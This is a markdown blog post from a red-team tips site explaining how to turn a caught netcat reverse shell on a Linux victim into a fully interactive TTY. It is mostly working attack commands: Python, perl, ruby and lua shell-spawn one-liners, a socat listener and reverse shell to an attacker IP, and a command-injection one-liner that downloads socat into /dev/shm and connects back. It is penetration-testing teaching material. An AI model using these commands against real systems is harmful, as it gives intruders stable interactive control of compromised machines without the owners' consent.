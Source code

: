 ```yaml
---
description: >-
  How to upgrade a linux reverse shell to a fully usable TTY shell
title: Upgrade a linux reverse shell to a fully usable TTY shell                    # Add title of the machine here
date: 2021-04-29 08:00:00 -0600                           # Change the date to match completion date
categories: [Tips & Tricks]                     # Categories
tags: [hacking, redteam, tips-n-tricks, socat, expect, python, linux, macos]     # TAG names should always be lowercase; add relevant tags
show_image_post: true                                    # Change this to true
#image: /assets/img/                # Add image here for post preview image
---
```


![Hack responsibly disclaimer](/assets/markups/1-hack-responsibly.svg)

## Upgrading remote shells (Unix machines only)

Usually, after catching a shell through netcat you are placed in a shell that has very limited functionality. The features I miss the most are command history (and using the 'up' and 'down' arrows to cycle through them) and tab autocompletion.  It can feel quite disorienting working in a shell that is missing these vital features.  

 **Note:** To check if the shell is a TTY shell use the `tty` command.

 ## rlwrap
 
You can also mitigate some of the restrictions of poor netcat shells by wrapping the netcat listener with the `rlwrap` command.  This is not installed by default so you will need to install it using `sudo apt rlwrap`.

```bash
rlwrap nc -lvnp $port
```

If the remote machine has Python installed you can easily upgrade to a fully functional TTY shell.

## Upgrade to fully interactive shell using Python:

1. First, after recieving your reverse shell you need to check the availability of Python. You can do this with the `which` command.

```bash
which python python2 python3
```

If any of these are installed this command will return the full path of the installed binary.  

Note: The `which` command will only report programs that are installed in a folder that exists in `$PATH`.  Python will almost always be in a `$PATH` directory so this should not be an issue.

2. Next, on the victim machine type the below command (using the version of python that is available on the machine!)

```bash
python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell
```

Your command prompt may or may not change to reflect the new shell.  If it does not change, do not panic as this is configured locally and will depend on setting on the machine you are on.

3. Next, type `ctrl-z` to send your shell to the background.

4. On your attack platform, you will need to set up your shell to send control charcters and other raw input through the reverse shell.  You can do this by using the `stty` command as below.

```bash
stty raw -echo
stty size 
```

The second command above will report the size of your terminal window in rows and columns.  This is useful for command output that either fills the whole terminal (such as when using programs such as `nano` or `vim`) or that would output lines that are too long to fit in the window.  Fixing the window size will allow for word-wrapping instead of cutting off output that is too long.

5. After that, type the command `fg` to return the reverse shell to the foreground.

6. Next, on the victim machine type the below commands to set some important environment variables.

```bash
export SHELL=bash
stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```

Viola!  You should now be the proud owner of a shiny new fully upgraded TTY shell with command history using the 'up' and 'down' arrows.  This shell will also allow you to use the command `clear` to clear your screen and 'control' commands, such as `ctrl-c` to kill remotely running processes rather than your own shell! Enjoy!


## Using Other Scripting Languages:

Below are some examples of other scripting languages that can be used to achieve the same upgraded shell as the second step above.  Afterwards follow along from step 3.

```python
echo os.system('/bin/bash')
/bin/sh -i

#python3
python3 -c 'import pty; pty.spawn("/bin/sh")'

#perl
perl -e 'exec "/bin/sh";'

#ruby
exec "/bin/sh"
ruby -e 'exec "/bin/sh"'

#lua
lua -e "os.execute('/bin/sh')"
```

## Using “Expect” To Get A TTY

If you’re lucky enough to have the [Expect](http://en.wikipedia.org/wiki/Expect) language installed just a few lines of code will get you a good enough TTY to run useful tools such as “ssh”, “su” and “login”.

Create a script called `sh.exp`

```bash
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

Then, execute this script on the victim machine.  For added sneakiness, run the script [from memory](https://zweilosec.github.io/posts/execute-in-memory/).

## Using socat

Another option is to upload the binary for `socat` to the victim machine and magically get a fully interactive shell. Download the appropriate binaries from [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries). Socat needs to be on both machines for this to work.

```bash
#Create Listener on attack platform:
socat file:`tty`,raw,echo=0 tcp-listen:4444

#From Victim:
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

## socat one-liner

This one-liner can be injected wherever you can get command injection for an instant fully interactive reverse shell. Point the path to the binary to your local http server if internet access is limited on the victim.

```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /dev/shm/socat; chmod +x /dev/shm/socat; /dev/shm/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.15.100:4444
```

### Disclaimer

Note: The methods above will not work in every situation.  For example, I have regularly run into a problem on my Kali machine where attempting to use `stty raw -echo` while using `zsh` as my shell will cause the entire terminal to become unusable.  I have gotten around this issue by switching to `bash` before I start any netcat listener that I will be using to catch a shell.

## Other Examples

If you have any other examples of methods of upgrading reverse shells, or have any other fun or useful tips or tricks, feel free to contact me on Github at [https://github.com/zweilosec](https://github.com/zweilosec) or on social media!

If you like this content and would like to see more, please consider buying me a coffee! <a href="https://www.buymeacoffee.com/zweilosec"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a coffee&emoji=&slug=zweilosec&button_colour=FFDD00&font_colour=000000&font_family=Lato&outline_colour=000000&coffee_colour=ffffff"></a>

